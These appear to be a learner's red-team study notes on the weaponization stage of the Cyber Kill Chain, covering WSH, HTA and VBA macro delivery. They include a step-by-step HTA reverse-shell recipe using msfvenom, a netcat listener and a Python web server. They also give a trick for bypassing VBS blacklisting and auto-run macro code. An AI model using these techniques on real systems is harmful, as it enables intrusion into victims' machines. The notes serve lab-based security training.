

# Weaponization


## Introduction
- Weaponization is the second stage of the Cyber Kill CHain model
- 
- Attacker generates and develops their malicious code and tries to exploit the machine
- Phishing campaigns, social engineering, browser/software exploitation, usb, etc.
- 
- [Red Team Toolkit github](https://github.com/infosecn1nja/Red-Teaming-Toolkit#Payload%20Development)
- Most organizations block or monitor the execution of `.exe` files, so red teamers rely on other techniques
    - The Windows Script Host (WSH)
    - An HTML Application (HTA)
    - Visual Basic Applications (VBA)
    - PowerShell (PSH)

## Windows Scripting Host - WSH
- Windows scripting host - a built in windows admin tool that runs batch files to automate and manage tasks within the os
- `cscript.exe` for CLI and `wscript.exe` for UI
    - `cscript.exe <file>` or `wscript.exe <file>` to execute code in file
- Responsible for execitomg various VBAScripts
- Simple VBS script to print a dialog box
```
Dim message 
message = "Welcome to THM"
MsgBox message
```
- Execute exe files
```
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
```
- If VBS files are blacklisted, you can rename them to `.txt` and then run it with `wscript` or `cscript`

## HTML Application - HTA
- HTA can contain JS and VBScript
- On windows HTA files are run using `mshta` tool
- Sample HTA code to launch cmd
```
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```
- HTA Reverse Shell
    1. Use msfvenom to create a payload `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta`
    2. Set up a nc listener `nc -nvlp 443`
    3. Serve the payload with a web server like python `python3 -m http.server`
    4. Wait for target to launch payload

## Visual Basic for Application - VBA
- A programming language created by Microsoft used for applications like Word, Excel, Powerpoint, etc.
- Allows automating tasks of nearly every keyboard and mouse interaction
- Macros - Microsoft office applications that contain embedded code written in VBA
- Edit macros in `View > Macros`
- Sample code to create message box
```
Sub THM()
  MsgBox ("Welcome to Weaponization Room!")
End Sub
```
- To execute macro automatically when document gets opened use AutoOpen and Document_open functions
```
Sub Document_Open()
  THM
End Sub

Sub AutoOpen()
  THM
End Sub

Sub THM()
   MsgBox ("Welcome to Weaponization Room!")
End Sub
```
- To make macros work, you need to save it in a macro-enabled format like `.doc` or `.docm`
